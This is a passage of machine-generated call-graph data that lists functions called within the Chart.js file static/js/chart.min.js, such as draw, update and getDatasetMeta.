"source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getSortedDatasetMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getSortedVisibleDatasetMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getSortedDatasetMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_drawDatasets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getSortedVisibleDatasetMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_drawDataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_drawDataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isPointInArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getElementsAtEventForMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getVisibleDatasetCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getSortedVisibleDatasetMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isDatasetVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setDatasetVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "toggleDataVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveAnimations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setDatasetVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_destroyDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_destroyDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clearCache"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "unbindEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "releaseContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "toBase64Image"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "toDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "bindEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "bindUserEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "bindResponsiveEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "bindUserEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_eventHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "bindResponsiveEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isAttached"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "unbindEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateHoverStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getActiveElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setActiveElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateHoverStyles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isPluginEnabled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateHoverStyles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateHoverStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateHoverStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_eventHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isPointInArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_handleEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_handleEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getActiveElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateHoverStyles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getActiveElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getElementsAtEventForMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "override"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "diff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "startOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "endOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMatchingVisibleMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "startsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "startsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "generateLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "onClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "toggleDataVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "linkScales"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getCircumference"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getRotationExtents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getCircumference"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMaxBorderWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMaxOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getRingWeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getRotationExtents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getVisibleDatasetWeightTotal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "calculateTotal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getRingWeightOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_circumference"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getCircumference"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "calculateCircumference"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getSharedOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_circumference"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_circumference"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "calculateTotal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "calculateCircumference"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelAndValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMaxBorderWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMaxOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getRingWeightOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isDatasetVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getRingWeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getRingWeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getVisibleDatasetWeightTotal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getRingWeightOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "generateLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "onClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "toggleDataVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelAndValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseObjectData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateRadius"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMinMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateRadius"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getVisibleDatasetCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getIndexAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "countVisibleElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDistanceFromCenterForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "countVisibleElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseArrayData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseObjectData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateRangeFromParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateRangeFromParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMaxOverflow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelAndValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBasePixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getRuler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getSharedOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_calculateBarValuePixels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_calculateBarIndexPixels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getStacks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMatchingVisibleMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getStackCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getStacks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getAxisCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getFirstScaleIdForIndexAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getFirstScaleIdForIndexAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, 